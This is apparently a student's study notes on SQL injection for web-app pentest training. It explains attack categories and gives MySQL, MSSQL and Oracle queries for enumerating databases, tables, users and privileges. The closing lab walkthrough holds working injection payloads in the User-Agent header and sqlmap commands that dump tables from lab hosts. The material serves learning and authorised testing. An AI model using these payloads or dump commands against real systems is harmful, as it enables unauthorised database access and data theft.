# SQLi


## In-band Attacks

In-band attacks leverage the same channel used to inject the SQL code.

This is the most common and straightforward attack scenario in which the result of the exploitation is included directly in the response from the vulnerable web application.

The most common techniques for this category are: **UNION based** and **Error based**


## Out of Band Attacks

Contrary to In-band attacks, Out of Band OOB techniques use alternative channel(s) to extract data from the server. There are several choices in this classification, but these generally depend upon the back end technologies implemented. Some of these include the following: HTTP(s) requests, DNS resolution, E mail, File System

Exploiting a SQLi using OOB methods is particularly useful when all In-band techniques have failed because attempted vectors have been disabled, limited, o r filtered. When the only option is to use Blind techniques ( Inference ), reducing the number of queries is a must.


### HTTP Based OOB Exploitation
A simple example is an HTTP based OOB technique that sends the result of the SQL query by HTTP request, usually via GET, toward a hacker controlled HTTP server (see below):




## Inference Attacks

Depending on the behavior of the observed vulnerability , there are several possible techniques to use; however, the most common are the following: **Boolean-based** and **Time-based**


### Boolean Based

In Boolean based blind techniques, the focus is on visible changes inside web server responses. For example, if the result of a query is not NULL, the server returns "Great“, while "Nooo"




### Time Based

Time-based techniques move the focus on delays.

For example, if the result of a query is as expected wait 15 seconds before reply:




## Gathering Information from the Environment

We have found a valid SQL Injection point, so now it's time to proceed with exploiting the injection flaw, but first we need to understand some basic fundamentals about our backend DBMS.

Our goals are gathering information ( DBMS version , Databases structure and data ), Database Users and their privileges

### Identifying the DBMS

The first piece of necessary information we need is what DBMS version we are testing. Without this information, we cannot adjust queries, specific to the context, and successfully proceed with the exploitation.

#### Error Codes Analysis

To detect the DBMS version, the most straightforward method consists of forcing the vulnerable application to return an error message. The more verbose the server errors are the better!

#### Banner Grabbing

Sometimes, the error code analysis doesn't return many details, like the exact version and patch level; however, it does return the database name.

Obviously, obtaining any of this information can still help in determining if the DBMS has some well known flaws.

The best way to identify the DMBS is by leveraging the NON Blind scenario. Every DBMS implements specific functions that return the current version, so retrieving the at value is straightforward.




#### Educated Guessing

The approach is different if we are facing a BLIND scenario. In this case, we can execute Educated Guessing of what's behind the injection point. To do this, there are many observation methods.

Each DBMS handles strings differently, making the way which `String Concatenation` is handled even more interesting. We can infer the DBMS version by observing the replies to different concatenation syntaxes, as we can see below:




#### Educated Guessing > Numeric Functions

Likewise, if the injection point is evaluated as a number , we can perform the same approach, but with **Numeric Functions**




#### Educated Guessing > SQL Dialect

The following MySQL comments syntax : there are 3 (official) comment styles plus one (unofficial):




### Enumerating the DBMS Content

Sometimes, our victim host may contain both multiple databases and store a great deal of useful information. In these situations, it's crucial for us not only to be organized, but also know how to gather information from the tested environment.

From a pen tester's point of view, the smartest way to begin is by enumerating the list of database schemas proceeded by tables, column and users.    Using this technique, it's much easier to both detect relevant information, and it's considerably faster than the extraction process.


Each DBMS handles databases in its own way. Each one uses specific tables to store information about the schemas (tables, columns, users, …), the server and other useful information. This “information” is also known as metadata , system catalog or data dictionary

#### Databases > MySQL

In MySQL , `INFORMATION_SCHEMA`is the magic place where we can retrieve all the metadata required. All the information about the other databases are stored within the table `SCHEMATA` .

```sql
SELECT schema_name FROM information_schema.schemata;
```


If the user is running MySQL has `SHOW` privileges, then the previous query can be condensed into this:

```sql
SHOW DATABASES;
OR
SHOW SCHEMAS;
```


MySQL also provides a list of useful functions and operators.
In this case, we can either use `DATABASE()` or its alias, `SCHEMA()` to obtain the default or current database name. These come from the pool of Information Functions

```
SELECT DATABASE();
OR
SELECT SCHEMA();
```


#### Databases > MSSQL

In SQL Server , all the system level information is stored within the `System Tables` .
Depending on the version of the DBMS, these tables exists either only in the `MASTER` database or in every database.


Information about the databases is stored in the system table: **sysdatabases** . This table is accessible from all the databases, therefore making the following queries the equivalent:

```sql
SELECT name FROM master..sysdatabases;
OR
SELECT name FROM sysdatabases;
```


The alternative to System Tables are `SYSTEM VIEWS` , a set of views exposing metadata. These are defined in each database and contain metadata for all the objects stored within that particular database . The most interesting views, for our purposes, are: Compatibility and Information Schema .


For a mapping between System Tables and System Views, you can find the information [here](https://learn.microsoft.com/en-us/sql/relational-databases/system-tables/mapping-system-tables-to-system-views-transact-sql?view=sql-server-ver16&redirectedfrom=MSDN)


So, as an alternative to using the Catalog view, we can also extract database information this way:

```sql
SELECT name FROM SYS.databases;
```


We can also leverage a utility function, **DB_NAME(id)** to obtain information about the current database, as we can see below:

```sql
SELECT DB_NAME();
```


Providing a small int ID, we can retrieve the information of a specific database. See the example below:

```sql
SELECT DB_NAME(1);
```


Here are the list of names and IDs:

```
SELECT dbid, DB_NAME(dbid) FROM master..sysdatabases;
```


#### Databases > Oracle

Compared to MySQL and SQL Server , Oracle is a mess! It doesn't have a simple model system like the previous two. There are two key concepts to understand.




Each `DATABASE` must point to an `INSTANCE` that has its custom logical and physical structures in order to store information like tables, indexes, etc.

Ignoring the physical structures, the most important and relevant logic structure for us is the `TABLESPACE` .

`TABLESPACEs` are the place where Oracle stores database objects such as tables, indexes, etc. 

It is possible to assign a `TABLESPACE` for each user and then assign some portions of the DB where they can work, thus making the administration efficient against exploitations!


The following query that will list the `TABLESPACES` the current user can use:

```sql
SELECT TABLESPACE_NAME FROM USER_TABLESPACES;
```

SYSTEM and SYSAUX are the system TABLESPACES created automatically at the beginning when the database is made.


If we want to retrieve the default TABLESPACE , we need this query:

```sql
SELECT DEFAULT_TABLESPACE FROM USER_USERS
OR
SELECT DEFAULT_TABLESPACE FROM SYS.USER_USERS
```

Where USER_USERS is the table in SYS that describes the current user.


### Databases > Tables & Columns

Once we have discovered the location of our data dictionaries, the enumeration of the DBMS content becomes a little easier.

#### MySQL

In MySQL , INFORMATION_SCHEMA TABLES is the table that provides information about tables in the databases managed. We can run the following query to select this information:

```sql
SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
```


The respective alias is:

```sql
SHOW TABLES ; # current schema
SHOW TABLES in EMPLOYEES ; # other database
```


In a similar fashion, the columns in tables are within the INFORMATION_SCHEMA COLUMNS table:

```sql
SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS;
```


The respective alias is:

```sql
SHOW COLUMNS FROM DEPARTMENTS IN EMPLOYEES; # cols in a table, database
```


#### MSSQL

In SQL Server , information about tables are stored within sysobjects . This table contains not only information about tables, but also all the objects defined for that specific schema. The list of tables for the current database can be obtained as follows:

```sql
SELECT name FROM sysobjects WHERE xtype='U'
```


To retrieve the list of tables for a specific database, we need to put the name of the database before the table name, see below:

```sql
SELECT name FROM employees..sysobjects WHERE xtype='U'
```


The column `xtype` defines many object types. Here are just few useful ones:





As an alternative, using the INFORMATION_SCHEMA views we can retrieve information about all tables and views of the current database. The view name is TABLE and we can query it like so:

```sql
SELECT table_name FROM INFORMATION_SCHEMA.TABLES
OR
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type = 'BASE TABLE'
```


If we want the list of tables and views for a specific database, we need to simply provide the database name before the view name, as we can see here:

```sql
SELECT table_name FROM employees.INFORMATION_SCHEMA.TABLES
OR
SELECT table_name FROM employees.INFORMATION_SCHEMA.TABLES WHERE table_type = 'BASE TABLE'
```


The enumeration of the columns is similar to that of tables. The System Table in charge is `syscolumns`

```sql
SELECT name FROM syscolumns
OR
SELECT name FROM employees..syscolumns
```


As an alternative, we can use the following views in INFORMATION_SCHEMA

```sql
SELECT column_name FROM INFORMATION_SCHEMA.columns
OR
SELECT column_name FROM employees.INFORMATION_SCHEMA.columns
OR
SELECT column_name FROM employees.INFORMATION_SCHEMA.columns WHERE table_name='salary'
```


#### Oracle

In Oracle , retrieving tables and columns is just a simple query. We need to use the system view `ALL_TABLES` to enumerate the list of tables accessible to the current user.

```sql
SELECT table_name, tablespace_name FROM SYS.all_tables
OR
SELECT table_name, tablespace_name FROM all_tables
```


There is a special table in Oracle named `DUAL` . It's not a real table; rather, it is a dummy table that helps in situations like this:

```sql
SELECT "WAPTx"; XXXX you can not do this 
SELECT "WAPTx" FROM DUAL; 	# do this
```

"Selecting from the DUAL table is useful for computing a constant expression with the SELECT statement."


In SQL Server, the system view `ALL_TAB_COLUMNS` is useful in enumerating the columns of the tables, views, and clusters accessible to the current user. We can achieve this with the following query:

```sql
SELECT column_name FROM SYS.ALL_TAB_COLUMNS
OR
SELECT column_name FROM ALL_TAB_COLUMNS
```


### Database Users and Privileges

Finally, let's see how to retrieve the list of users, the current user, and their related privileges.

#### MySQL

MySQL provides a list of functions and constants to select the current user. This is the list of some of the useful functions for our context:




Whereas, if the current user is privileged, we can retrieve the list of all users this way:

```sql
SELECT user FROM mysql.user;
```

Mysql is a system database that, by default, is only usable to a root user.


What a user can do is defined through privileges. In MySQL , the privileges are all stored within the INFORMATION_SCHEMA database and organized by the following tables:




So, for example, all user privileges can be selected in this way:

```sql
SELECT grantee, privilege_type FROM INFORMATION_SCHEMA.USER_PRIVILEGES;
```


Whereas, if we are looking for privileges on databases, this is the query to use:

```sql
SELECT grantee, table_schema , privilege_type FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES;
```


Extract the privileges on tables and columns:

For the privileged users, we can once again use the mysql user table to select the privileges from the respective columns.

```sql
SELECT user, select_priv FROM MYSQL.USER;
```


If we want to gather the DBA accounts, then we may need to improve the previous query using a WHERE clause:

```sql
SELECT grantee, privilege_type FROM INFORMATION_SCHEMA.USER_PRIVILEGES WHERE privilege_type ='SUPER'
```


Whereas, privileged users need to change their select query on the mysql.user table in the following way

```sql
SELECT user FROM MYSQL.USER WHERE Super_priv = 'Y';
```


#### MSSQL

In this context, MSSQL is similar to MySQL . We have the following list of functions and constants to select the current user:




In addition, we can also use the System Tables:




Or we can also use System Views:

```sql
SELECT original_login_name FROM SYS.DM_EXEC_SESSIONS WHERE status='running'			# current active user
```


Once we have identified the users, we need to understand their privileges. IS_SRVROLEMEMBER is the function that contains the key / answer to our

```sql
IF IS_SRVROLEMEMBER('sysadmin') = 1
	print 'Currentuser''s login is a member of the sysadmin role'
ELSE IF IS_SRVROLEMEMBER('sysadmin') = 0
	print 'Current user''s login is NOT a member of the sysadmin role'
```

In addition to sysadmin , these are other possible serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin


Additionally, we can also use this function to ask about other users in the following way:

```sql
SELECT IS_SRVROLEMEMBER('processadmin', 'aw')		#  'aw' => This is the name of the SQL Server login to check If no username is supplied as an argument, it is the current user
```


Who is the owner of what? Let's use the System Table syslogins

```sql
SELECT loginname FROM SYSLOGINS where sysadmin = 1
```


Or, we can use the System View server_principals

```sql
SELECT name FROM SYS.SERVER_PRINCIPALS where TYPE='S'
```


#### Oracle

Retrieving the current user is very simple via the following query:

```sql
SELECT user FROM DUAL
```


We can say the same about using the system views USER_USERS or ALL_USERS for the complete list below:

```sql
SELECT username FROM USER_USERS
OR
SELECT username FROM ALL_USERS
```


User privileges are organized within the System Tables: `DBA_ROLE_PRIVS` and `USER_ROLE_PRIVS` . The first table describes the roles of all users in the database, while the second is exclusive for the current user. Clearly, the DBA table is for privileged users!


```sql
SELECT grantee FROM DBA_ROLE_PRIVS
OR
SELECT username FROM USER_ROLE_PRIVS
```


The current user's session privileges are also reported within the SESSION_ROLES view:

```sql
SELECT role FROM SESSION_ROLES
```


If you want to retrieve an overview of all the data dictionaries, tables, and views available, then you may need to use this super view: DICTIONARY

```sql
SELECT * FROM DICTIONARY
OR
SELECT * FROM DICT
```


page90


### Lab1

using request in a file called req.txt with user-agent=*

```http
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: *
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://info.sqli.labs/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```


sqlmap with a file

```bash
sqlmap -r req.txt  --proxy http://127.0.0.1:8080 

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql --dbs

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs --tables

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs -T browsers --columns

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs -T browsers -C browser --dump
```


sqlmap without using a file

```bash
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```


manual

```bash
User-Agent: ' UNION SELECT user(); -- -
```


### Lab2

UNION and standard payloads like 1='1 are filterer.

```bash
sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 2sqlilabs -T browsers -C browser --dump
OR
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```


manual

```bash
User-Agent: ' or 'elscustom'='elsFALSE   	// returns 6 
User-Agent: ' or 'elscustom'='elscustom		// returns 19
```

